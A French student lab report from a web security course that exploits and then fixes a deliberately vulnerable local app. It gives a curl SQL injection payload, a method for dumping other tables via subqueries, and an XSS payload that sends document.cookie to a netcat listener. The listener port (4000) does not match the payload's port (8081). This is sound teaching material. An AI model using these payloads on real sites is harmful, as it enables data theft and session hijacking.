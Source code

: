 # Rendu "Injection"

## Binome

Nom, Prénom, email: KROL Mikolaï mikolai.krol.etu@univ-lille.fr  
Nom, Prénom, email: HOLVOET Adrien adrien.holvoet.etu@univ-lile.fr


## Question 1

* Quel est ce mécanisme?   

La mise en place d'une vérification de l'input par une function javascript avec un regex. Donc une vérification côté client.

* Est-il efficace? Pourquoi?   
Non car c'est très simple de contourner une vérification côté client, il est préférable de faire cela côté serveur. En effet cette vérification peut-être contourner par une simple requête curl ou encore en désactivant le javascript dans la navigateur.

## Question 2

* Votre commande curl   
```
curl -d "chaine=f(-(é_à" http://localhost:8080;
```

## Question 3

* Votre commande curl pour mettre le contenu que je souhaite dans le champ who autre que l'adresse ip 127.0.0.1
```
curl -d 'chaine=mon text%27%,%27ce que je veux%27) -- '  http://localhost:8080;
```


* Expliquez comment obtenir des informations sur une autre table

Pour obtenir les infos d'une autre table, il faudrait connaitre le nom de celle-ci et également les colonnes que l'on souhaite regarder. Et on pourrait alors combiner la commande INSERT INTO avec la commande SELECT pour selectionner les valeurs comprises dans une autres tables, les insérer dans les colonnes txt et who de notre table chaines qui s'affichera sur notre page web.
La commande SQL ressemblerais à ça `INSERT INTO chaines (txt,who) VALUES ((SELECT col1 FROM otherTable), (SELECT col2 FROM otherTable))`, il suffirait de limiter chaque select pour n'avoir qu'un seul resultat et ne pas provoquer une erreur SQL : 'Subquery returns more than 1 row'. Ca peut se faire par exemple en rajoutant une clause where id=1 et incrémenter cette id dans une boucle while où on exécutera notre commande curl en boucle afin de récuperer tous les enregistrements. Commande SQL final : `INSERT INTO chaines (txt,who) VALUES ((SELECT col1 FROM otherTable where id=i), (SELECT col2 FROM otherTable where id=i))` i s'incrémente à chaque boucle.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.   

Nous utilons donc un Parameterized query et prepared statement afin d'évitez les injections SQL.  Pour cela nous devons premièrement mettre en place un prepared statement sur notre cursor comme ceci : `cursor = self.conn.cursor(prepared=True)`. Ensuite, nous avons créer la parameterized SQL query qui utilisent deux placeholders comme ceci : `requete = "INSERT INTO chaines (txt,who) VALUES(%s, %s)"` Les inputs rentrés par l'utilisateur vont se retrouver dans un tuple  `values = (post["chaine"], cherrypy.request.remote.ip)` qui va prendre  la place de ces placeholders(%s, %s). Il ne suffit plus maintenant que d'utiliser la méthode `execute` du `cursor` afin d'exécutur notre requête SQL, celui-ci prend donc notre parameterized SQL query et notre tuple, comme ceci : `cursor.execute(requete, values)`.   
Ce mécanisme permet d'empêcher donc l'injection SQL de la Question 3

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
```
curl -d 'chaine=<script>alert("hello")</script>'  http://localhost:8080;
```

* Commande curl pour lire les cookies . 

D'abord il faut lancer la commande netcat : `nc -l -p 4000`

```
curl -d 'chaine=<script>window.location.replace("http://localhost:8081/search?cookie=" %2B document.cookie)</script>'  http://localhost:8080;

```

## Question 6

* Rendre un fichier server_xss.py avec la correction de la faille. Expliquez la demarche que vous avez suivi.

On escape la chaine passée en paramètre uniquement avant l'insertion en base de donnée, la chaine inserée ne contiendra donc aucun caractère qui pourrait être interprété comme du html quand on l'insèrera dans la page html.


